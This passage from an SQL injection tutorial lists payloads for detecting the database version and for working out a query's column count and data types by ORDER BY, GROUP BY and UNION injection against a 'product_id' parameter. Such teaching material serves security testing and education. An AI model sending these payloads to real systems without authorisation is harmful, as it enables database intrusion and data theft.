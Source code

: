 #### Database Detection Queries
```sql
-- MySQL version detection
' AND (SELECT @@version)--

-- SQL Server version detection
' AND (SELECT @@version)--

-- PostgreSQL version detection
' AND (SELECT version())--

-- Oracle version detection
' AND (SELECT banner FROM v$version WHERE rownum=1)--
```

### Determining SELECT Query Structure

Understanding the original query structure is crucial for successful injection.

#### Column Count Determination

**ORDER BY Method**
```sql
-- Incrementally test column count
product_id=1' ORDER BY 1--    (success)
product_id=1' ORDER BY 2--    (success)
product_id=1' ORDER BY 3--    (success)
product_id=1' ORDER BY 4--    (error - 3 columns confirmed)
```

**GROUP BY Method**
```sql
-- Alternative column counting
product_id=1' GROUP BY 1--
product_id=1' GROUP BY 1,2--
product_id=1' GROUP BY 1,2,3--
product_id=1' GROUP BY 1,2,3,4--  (error)
```

**UNION Method**
```sql
-- Direct union testing
product_id=1' UNION SELECT 1--       (error)
product_id=1' UNION SELECT 1,2--     (error)
product_id=1' UNION SELECT 1,2,3--   (success)
```

#### Data Type Identification
```sql
-- Test string compatibility
product_id=1' UNION SELECT 'a','b','c'--

-- Test numeric compatibility
product_id=1' UNION SELECT 1,2,3--

-- Mixed data type testing
product_id=1' UNION SELECT 1,'string',null--
```
